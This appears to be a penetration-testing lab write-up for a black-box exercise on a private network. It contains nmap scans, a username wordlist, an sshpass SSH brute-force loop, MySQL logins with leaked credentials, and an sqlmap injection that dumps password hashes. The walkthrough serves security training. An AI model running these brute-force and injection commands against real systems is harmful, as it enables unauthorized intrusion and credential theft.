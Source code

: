 ```yaml
---
description: >-
  You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range).
  Your goal is to read the flag file on each machine.
---
```


# Black Box Test 2

## Discover live hosts on the network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oG portScan.grep
```

### Hosts Alive

| Host | OS |
| :--- | :--- |
| 172.16.64.81 \(cms.foocorp.io, static.foocorp.io\) | Linux |
| 172.16.64.91 | Linux |
| 172.16.64.92 | Linux |
| 172.16.64.166 | Linux |

## Open Ports and Running Services

### 172.16.64.81 \(flag in mysql\)

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 80 | http | Apache httpd 2.4.18 \(Ubuntu\) |
| 13306 | mysql | MySQL 5.7.25-0ubuntu0.16.04.2 |

### 172.16.64.91

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 80 | http | Apache httpd 2.4.18 \(Ubuntu\) |
| 6379 | redis | Redis key-value store |

### 172.16.64.92

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 \(Ubuntu Linux; protocol 2.0\) |
| 53 | 53 | dnsmasq 2.75 |
| 80 | http | Apache httpd 2.4.18 \(Ubuntu\) |
| 63306 | mysql | MySQL 5.7.25-0ubuntu0.16.04.2 |

### 172.16.64.166 \(flag under sabrina user\)

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 2222 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 \(Ubuntu Linux; protocol 2.0\) |
|  8080 | http | Apache httpd 2.4.18 \(Ubuntu\) |

## Machines

### 172.16.64.166

![](../.gitbook/assets/image%20%285%29.png)

```text
elizabeth 
Lopez
elizabethlopez
elopez
managingdirector
director
manager  
tara
baker
tarabaker
tbaker
designer
beckycasey
becky
casey
bcasey
project
manager 
projectmanager
randy
carlson
randycarlson
rcarlson
developer
pabloroberts
pablo
roberts
proberts
founder
bessiehammond
bessie
hammond
bhammond
programmer 
gerardomalone
gerardo
malone
gmalone
juniordesigner
junior
designer
sabrina 
summers
sabrinasummers
ssummers
analyst
```

```bash
#!/bin/sh

for user in $(cat users.txt); 
do
    echo "Trying '$user'..."
    sshpass -p CHANGEME ssh -p 2222 $user@172.16.64.166 2>/dev/null
    if [ $? -eq 0 ]; then
        exit
    fi
done;
```

```bash
sabrina@xubuntu:~$ cat flag.txt 
Congratulations! You have successfully exploited this machine.
Go for the others now.
```

```text
sabrina@xubuntu:~$ cat hosts.bak 
127.0.0.1       localhost
172.16.64.81    cms.foocorp.io
172.16.64.81    static.foocorp.io

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### 172.16.64.81

![](../.gitbook/assets/image%20%286%29.png)

```text
john1john1:password123
peter:youdonotguessthatone5
```

### 172.16.64.92

```text
X-DB-Key: x41x41x412019!
X-DB-User: root
X-DB-name: mysql
```

![](../.gitbook/assets/image%20%284%29.png)

```bash
# Tried:
# mysql --host=172.16.64.92 --user=root --password=x41x41x412019! --port 63306 mysql
# Working:

mysql --host=172.16.64.81 --user=root --password=x41x41x412019! --port 13306 mysql
> show databases;
> use cmsbase;
> show tables;
+----------------------------+
| Tables_in_cmsbase          |
+----------------------------+
| flag                       |
| sqlmapfile                 |
| tbl_1_actions_log          |
| tbl_1_categories           |
| tbl_1_categories_relations |
| tbl_1_downloads            |
| tbl_1_files                |
| tbl_1_files_relations      |
| tbl_1_folders              |
| tbl_1_groups               |
| tbl_1_members              |
| tbl_1_members_requests     |
| tbl_1_notifications        |
| tbl_1_options              |
| tbl_1_password_reset       |
| tbl_1_users                |
| tbl_actions_log            |
| tbl_categories             |
| tbl_categories_relations   |
| tbl_downloads              |
| tbl_files                  |
| tbl_files_relations        |
| tbl_folders                |
| tbl_groups                 |
| tbl_members                |
| tbl_members_requests       |
| tbl_notifications          |
| tbl_options                |
| tbl_password_reset         |
| tbl_users                  |
+----------------------------+
30 rows in set (0.141 sec)

MySQL [cmsbase]> select * from cmsbase.flag
    -> ;
+----+------------------------------+
| id | content                      |
+----+------------------------------+
|  1 | Congratulations, you got it! |
+----+------------------------------+
1 row in set (0.141 sec)

```

```text
mysql --host=172.16.64.92 --user=fcadmin1 --password=c5d71f305bb017a66c5fa7fd66535b84 --port 63306 footracking
```

```text
sqlmap -u 'http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=6' -D footracking -T users --dump
Database: footracking
Table: users
[4 entries]
+----+-----+----------------------------------+-----------+
| id | adm | password                         | username  |
+----+-----+----------------------------------+-----------+
| 1  | yes | c5d71f305bb017a66c5fa7fd66535b84 | fcadmin1  |
| 2  | yes | 14d69ee186f8d9bbeddd4da31559ce0f | fcadmin2  |
| 3  | no  | 827ccb0eea8a706c4c34a16891f84e7b | tracking1 |
| 4  | no  | e10adc3949ba59abbe56e057f20f883e | tracking2 |
+----+-----+----------------------------------+-----------+    
```

![](../.gitbook/assets/image%20%287%29.png)

